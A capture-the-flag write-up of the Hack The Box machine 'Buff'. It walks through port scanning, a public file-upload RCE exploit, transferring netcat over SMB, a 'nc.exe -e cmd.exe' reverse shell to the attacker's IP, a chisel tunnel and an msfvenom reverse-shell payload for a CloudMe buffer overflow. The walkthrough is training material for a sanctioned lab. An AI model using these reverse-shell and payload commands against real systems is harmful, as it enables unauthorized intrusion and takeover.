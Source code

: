 # Buff [HTB](https://app.hackthebox.com/machines/263)
![buff-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/buff-01.png)


## Recon 

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 buff.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/ports-02.png)


Let's run a version detection scan againts this port:

```bash
nmap -p 8080 -sCV buff.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nmap-res-03.png)


We have the following:

+ An Apache/2.4.43 server on port 8080.


The nmap probing scripts have identified that the Apache server might have the `CONNECT` HTTP method enabled. This in effect allows the web server to act as a proxy server and make request to other target systems. I tried searching online for possible exploitaion strategies for this method, but I didn't find anything super clear, more theoretical stuff.


Based on the namp probing scripts we can also conclude that the Apache is powered by PHP/7.4.6, and that the target is probably running a Windows OS with an x64-bit architecture. 


### Apache port 8080


If we browse towards `http://buff.htb:8080/` we get the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/site-04.png)


The site seems to be offering gym services, there are four link at the top strip and a sign in form. Each of the four links leads to a different php script in the website's root directory. All of the scripts return read-only informational content, no place to input stuff as users. 


If click the `Contact` button though, we will get the following text:

![cms-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/cms-05.png)


At first I thought this was placed here by the creator of this box as some sort of troll, I didn't think this is an actual CMS. But I searched for this string on Google and I found an Unauthenticated Remote Code Execution exploit [here](https://www.exploit-db.com/exploits/48506). Wow..


In short, the `upload.php` doesn't check for a proper user session, which allows unauthiticated users to upload files. By reveiwing the source of `upload.php`, methods were identified for bypassing the MIME type checks, the file extensions checks, and the content-type checks. 


I tried to find a way to exploit this manaully, but the file upload requiers a dictionary with specific strucutre and objects for it to be accepted by the server. I decided to use the python exploit script instead of finding a way to pull this off with `curl` from the command-line.


After downloading the exploit I run and get a shell:


![shell-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/shell-06.png)


But I didn't like this shell, I wasn't able to perform simple tasks like changing directories. Instead, I decided to transfer a copy of `nc64.exe` over to the target using an SMB server. 


First, I grab a copy of `nc64.exe` to my working directory and start the SMB server on my Kali with:

```bash
impacket-smbserver -smb2support -debug buff .
```

Then, I connect to the SMB server from the target and copy the file over:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\nc64.exe nc.exe
```

![copy-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-07.png)


Now I start my local listener on my Kali with:

```bash
rlwrap nc -lnvp 9009
```

And coonect from the target using:

```cmd
nc.exe -e cmd.exe 10.10.14.54 9009
```

Which gives me a shell:


![nice-shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nice-shell-08.png)


## Privilege Escalation


After landing on the machine I start hunting down quick wins. I list any permissions we have using `whoami /priv` but we don't have any interesting permissions. I look for any stored credentials using `cmdkey /list` but there are none. I also check for the presence of `Always Installed Elevated` vulnerability but I dont find any. 


So I shift gears and start looking around the filesystem, I start with `shaun`'s home directory at `C:\Users\shaun`. Inside the `Downloads` folder I see something interesting:

![downloads-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/downloads-09.png)


I search for this executable online and I find a Buffer-Overflow exploit for it on [ExploitDB](https://www.exploit-db.com/exploits/48389). From what I understand `CloudMe Sync` is a synchronization application which syncs your local storage with the cloud storage, and it is listening on port 8888.


If we list the running processes on the target system with `netstat -ano` we can see the port is open:

![port-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/port-10.png)


The service must run as adminstrator, otherwise the exploit won't help us escalate privileges. I tried to list the running processes on the system in order to make sure this service is actually running as the administrator, but I was denied access. Even though I wasn't able to make sure the service is running as the admin, I decided to bet on it. 


To try and exploit this, we first need to tunnel the service to our attack machine, I decided to use [chisel](https://github.com/jpillora/chisel).


I download an x64-bit executable chisel client for Windows using [this link](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz), I extract it in my attack machine using with `gunzip -d <archive>`.


Then, I tried to transfer the file using a python web server and downloading it from the target using `certutil` and `wget` but I was denied access. I also tried other methods but they all failed. 


So I deicded to try the SMB method again, but when I connect to my share from the netcat shell there are issues establishing the connection. So I decided to use the previous shell we had, which did mange to get files via SMB.


I start the SMB server on my Kali same as before:

```bash
impacket-smbserver -smb2support -debug buff .
```

I connect to the share from the target and download the files:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\chisel.exe C:\Users\shaun\chisel.exe
```

![copy-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-11.png)


And here it is in `shaun`'s home folder:

![found-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/found-12.png)


Now we are ready to setup the tunnel. First, on the Kali, we need to start the server with:

```bash
chisel server -p 8001 --reverse
```

Then, from the target establish the tunnel using:

```cmd
chisel.exe client 10.10.14.54:8001 R:8888:127.0.0.1:8888
```

This will open port 8888 on our Kali, and transfer the traffic from target's localhost:8888 to it. 

![client-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/client-13.png)


After connecting the client, I receive the connection on the server:

![server-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/server-14.png)


If we list the open ports on our Kali machine, we can see the client/server connection is established on port 8001, and the tunnel for port 8888 is open our Kali machine:

![port-14.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/netstat-14.5.png)


With the tunnel established we can try the [exploit](https://www.exploit-db.com/exploits/48389). After downloading it, we need to change the payload for the buffer-overflow, as currently it starts `calc.exe`, which is not super useful.


At first I tried an x64-bit payload, which faild. But an x84 bit payload with the below syntax works:
 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.54 LPORT=9999 -b '\x00\x0A\x0D' -f python
```

![venom-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/venom-15.png)


I copy the entier output and place it in the exploit:

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/exploit-16.png)


I also change the variable names below to match the output from msfvenom:

![vars-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/vars-17.png)


Now I start the local lisetner for the connection:

```bash
rlwrap nc -lnvp 9999
```

And I execute the buffer-opverflow exploit with:

```bash
python buffer-overflow.py
```

The exploit executes with no issues, and on my netcat listener I recieve a shell as the administrator:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/root-18.png)
